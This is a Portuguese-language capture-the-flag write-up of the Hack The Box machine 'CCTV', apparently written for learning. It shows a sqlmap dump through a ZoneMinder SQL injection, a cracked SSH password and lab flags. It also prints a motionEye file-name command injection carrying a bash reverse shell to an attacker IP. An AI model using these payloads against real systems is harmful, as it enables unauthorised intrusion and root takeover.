# Hack The Box — CCTV


---

# Informações da Máquina

| Nome  | Dificuldade | Plataforma    | OS    |
| ----- | ---------- | ------------ | ----- |
| CCTV | Easy | Hack The Box | Linux |

---

# Superfície de ataque

```
1. Enumeração inicial revelou SSH e HTTP.
2. A aplicação web exposta utilizava ZoneMinder.
3. Foi explorada uma SQL Injection no endpoint de requisições do ZoneMinder.
4. O dump do banco permitiu obter hashes de usuários e quebrar a senha do usuário mark.
5. Com acesso SSH como mark, foi possível tunelar o serviço local motionEye.
6. No motionEye, uma injeção de comando no campo de nome do arquivo gerou shell reversa como root.
```

---

# Reconhecimento

A enumeração inicial foi realizada com Nmap para identificar portas abertas, serviços e versões.

```
nmap -sC -sV -A 10.129.23.191
```



### Descobertas

| Porta | Serviço | Observações |
| ------ | --------- | ------- |
| 22/tcp | SSH | OpenSSH 9.6p1 em Ubuntu 24.04. |
| 80/tcp | HTTP | Apache 2.4.58 com redirecionamento para `http://cctv.htb/`. |

O ponto de entrada principal era o serviço web. Após ajustar o `/etc/hosts` para resolver `cctv.htb`, a enumeração passou a focar na aplicação HTTP.

---

# Enumeração Web

O primeiro passo foi identificar conteúdo web adicional e entender qual aplicação estava rodando no alvo.

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://cctv.htb/FUZZ -mc 200
```



A interface e os endpoints encontrados indicavam o uso do **ZoneMinder**, uma plataforma de monitoramento CCTV. Com isso, a enumeração passou a focar nos componentes da aplicação e em possíveis falhas conhecidas ou pontos inseguros de acesso.

Ferramentas utilizadas nesta etapa:

* ffuf
* Browser
* inspeção de endpoints do ZoneMinder

---

# Exploração — SQL Injection no ZoneMinder

Durante a análise da aplicação, foi encontrado o CVE-2024–51482 e o endpoint abaixo mostrou-se vulnerável a **SQL Injection**:

```
http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1
```

A exploração foi automatizada com o `sqlmap`, reutilizando a sessão autenticada por cookie.

```
sqlmap -u "http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1" \
--dump -T Users -C Username,Password \
--batch \
--dbms=MySQL \
--technique=T \
--cookie="ZMSESSID=1hh7m1gb370gmerocuk05hppvn"
```



O resultado confirmou o acesso ao banco `zm`, com dump da tabela `Users`.



Os hashes recuperados foram:

* `superadmin`
* `mark`
* `admin`

Como o objetivo era obter acesso ao sistema, o próximo passo foi quebrar os hashes offline.

---

# Quebra de Hash e Credenciais

O hash do usuário `mark` foi salvo em arquivo e testado com `john` usando a wordlist `rockyou.txt`.

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```



A senha recuperada foi:

```
mark : opensesame
```

Com isso, já era possível tentar autenticação SSH no sistema.

---

# Acesso Inicial

Usando as credenciais obtidas no banco, foi possível acessar o host por SSH como o usuário `mark`.

```
ssh mark@cctv.htb
```



Esse foi o acesso inicial válido ao sistema.

---

# Enumeração para Escalação de Privilégio

Com shell como `mark`, a enumeração local mostrou dois pontos importantes:

1. O host executava **ZoneMinder** e também **motionEye**.
2. O serviço **motionEye** estava acessível apenas localmente em `127.0.0.1:8765`.

A listagem de portas e serviços confirmou esse cenário.

```
ss -tlnp
systemctl list-units --type=service --state=running
```



Em seguida, a leitura do arquivo de configuração do motionEye trouxe mais contexto sobre o serviço:

```
cat /etc/motioneye/motion.conf
```



Mesmo sem expor diretamente uma credencial em texto puro, essa etapa ajudou a confirmar que o ambiente realmente usava **motionEye** e que valia a pena inspecionar sua interface administrativa local.

Como a aplicação estava bindada em localhost, foi feito um túnel SSH para acessá-la a partir da máquina atacante.

```bash
ssh -L 8765:127.0.0.1:8765 mark@cctv.htb
```



Com o túnel ativo, o painel do motionEye ficou acessível localmente em `http://127.0.0.1:8765`.

---

# Escalação de Privilégio — motionEye RCE

Dentro da interface do motionEye, foi identificado um ponto explorável no campo **Image File Name** conforme o CVE-2025–60787. Esse campo aceitava uma string maliciosa capaz de provocar **injeção de comando**, permitindo executar um payload de shell reversa.

Payload utilizado:

```
$(/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.233/4444 0>&1')
```

Ao inserir o payload na configuração e salvar, o motionEye executou o comando no servidor.



Na máquina atacante, um listener foi preparado com Netcat:

```
nc -lvnp 4444
```

Quando o serviço processou a configuração, a conexão reversa foi recebida com privilégios de **root**.



A saída do `id` confirmou:

```
uid=0(root) gid=0(root) groups=0(root)
```

Essa escalada foi possível porque o processo responsável por manipular a funcionalidade explorada no motionEye rodava com privilégios elevados, transformando a injeção de comando em **RCE como root**.

---

# Flag de Usuário

Após o login, a flag de usuário foi localizada no diretório home de `sa_mark`.

```
cd /home/sa_mark
ls
cat user.txt
```



```
fba4478454b567bdaca1842da6e12ef6
```

---

# Flag Root

Com a shell privilegiada, bastou ler a flag em `/root/root.txt`.

```
cd /root
ls
cat root.txt
```



```
4f2da2df1e9b24935d3e24336abe689c
```

---

# Vulnerabilidades Identificadas

### 1. SQL Injection no ZoneMinder

Descrição:

* O endpoint `request=event&action=removetag` aceitava entrada manipulável.
* Isso permitiu extração de dados do banco MySQL.
* O atacante conseguiu obter hashes de senha de usuários da aplicação.

Impacto:

* vazamento de credenciais
* comprometimento de contas válidas
* acesso inicial ao sistema via reutilização de senha no SSH

### 2. Reutilização de credenciais

Descrição:

* A senha recuperada para `mark` no banco também era válida para autenticação no sistema.
* Isso transformou um comprometimento da aplicação web em acesso ao host.

Impacto:

* pivot da camada web para o sistema operacional
* acesso interativo por SSH

### 3. Command Injection / RCE no motionEye

Descrição:

* O campo de nome do arquivo de imagem aceitou payload malicioso.
* O valor foi interpretado de forma insegura pelo serviço.
* Como o processo estava com privilégios elevados, a execução resultou em shell como root.

Impacto:

* execução remota de comandos
* escalada direta para root
* comprometimento total da máquina

---

# Ferramentas Utilizadas

* Nmap
* ffuf
* sqlmap
* John the Ripper
* SSH
* Netcat

---

# Principais Aprendizados

* Uma SQL Injection aparentemente simples pode ser suficiente para comprometer toda a máquina quando há reutilização de credenciais.
* Serviços bindados em `localhost` ainda podem ser explorados após acesso inicial, especialmente com SSH tunneling.
* Interfaces administrativas internas expostas apenas localmente não são sinônimo de segurança, principalmente quando possuem injeção de comando.
* Enumerar serviços locais após o foothold é essencial para encontrar caminhos de privesc fora do fluxo tradicional de sudo, SUID ou cron.

---

# Autor

https://github.com/ninjaa-exe
